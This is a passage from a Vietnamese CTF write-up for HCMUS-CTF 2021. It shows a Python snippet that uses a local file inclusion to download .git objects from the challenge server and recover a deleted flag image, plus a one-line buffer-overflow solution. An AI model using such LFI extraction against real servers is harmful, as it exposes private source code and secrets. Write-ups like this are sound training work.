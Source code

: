 ```
f = open(f'{task}', 'wb')
data = lfi(task).strip()
data = base64.b64decode(data)
f.write(data)
compressed_contents = data
decompressed_contents = zlib.decompress(compressed_contents)
print(decompressed_contents)
f.close()
$ python3 get_object.py ".git/objects/17/d14ffb4be92ef2b63c070307aa43774ccd9d65" // hash = 17d14ffb4be92ef2b63c070307aa43774ccd9d65
```

Nếu ta gặp lỗi khi dùng `git log` ví dụ như:
[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/6.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/6.png)

Thì cứ tiếp tục clone đến khi nào hết báo lỗi thì thôi XD
Sau một hồi hì hục clone thì cũng hoàn thành, giờ tìm flag thôi!! Lúc này mình nghĩ rằng rất có thể tác giả đã chèn flag vào trong file nào đó rồi lại xoá đi cũng nên, vì vậy mục đích của mình là đọc lại những file cũ từ lúc init đến hiện tại => Vẫn dùng cách cũ là clone từng `object` về thôi.

[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/7.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/7.png)
Ở đây mình thấy các file như sau:

[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/8.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/8.png)
Ở đây thấy 1 cái ảnh, có hash là `5531e1ff740b1dbafc79f315f266d54738938450` nên nhanh chóng dùng script ở trên clone về

```
$ python3 get_object.py ".git/objects/55/31e1ff740b1dbafc79f315f266d54738938450"
$ git cat-file -p 5531e1ff740b1dbafc79f315f266d54738938450 > image.png
```

Và ta có flag XD

[![img](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/9.png)](https://kcsc-club.github.io/images/hcmus-ctf-2021/web/git/9.png)

> Flag: `HCMUS-CTF{mOt1vaT3d_by_0ld_m3Mory}`

-----

# <a name="PWNABLE"></a>PWNABLE

### BANK 1

*<u>BOF</u>*

Chèn một chuỗi kí tự dài gây tràn bộ đệm.

> HCMUS-CTF{that_was_easy_xd}

### BANK 2
